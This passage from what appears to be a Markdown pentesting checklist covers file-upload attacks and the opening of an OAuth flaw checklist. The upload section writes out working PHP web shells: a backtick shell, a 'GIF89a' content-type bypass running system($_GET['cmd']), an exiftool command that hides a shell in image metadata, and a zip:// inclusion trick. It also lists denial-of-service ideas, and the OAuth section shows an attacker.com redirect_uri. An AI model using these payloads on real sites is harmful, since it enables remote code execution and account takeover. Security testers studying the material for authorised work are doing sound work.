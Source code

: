             ```php
            (<?=`$_GET[x]`?>)
            ```

        - [ ]  Content Bypass Shell
            - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )

            ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```

# OAuth Checklist

## Table Of Contents

- OAuth Roles
- Code Flaws
- Redirect_uri Flaws
- State Flaws
- Evil App
- Misc

## OAuth

- OAuth
    - OAuth Roles
        - Resource Owner → User
        - Resource Server → Twitter
        - Client Application → Twitterdeck.com
        - Authorization Server → Twitter
        - client_id → Twitterdeck ID (This is a public, non-secret unique identifier.)
        - client_secret → Secret Token known to the Twitter and Twitterdeck to generate `access_tokens`.
        - response_type → Defines the token type e.g (code, token, etc.)
        - scope → The requested level of access Twitterdeck wants.
        - redirect_uri → The URL user is redirected to after the authorization is complete.
        - state → Main CSRF protection in OAuth, can persist data between the user being directed to the authorization server and back again.
        - grant_type → Defines the `grant_type` and the returned token type.
        - code → The authorization code twitter generated, will be like `?code=`, the code is used with client_id and client_secret to fetch an `access_token`.
        - access_token → The token twitterdeck uses to make API requests on behalf of the user.
        - refresh_token → Allows an application to obtain a new `access_token` without prompting the user.
    - Code Flaws
        - [ ]  Re-Using the code.
        - [ ]  Code Predict/Bruteforce and Rate-limit?
        - [ ]  Is the code for application X valid for application Y?
    - Redirect_uri Flaws
        - [ ]  URL isn't validated at all: `?redirect_uri=https://attacker.com`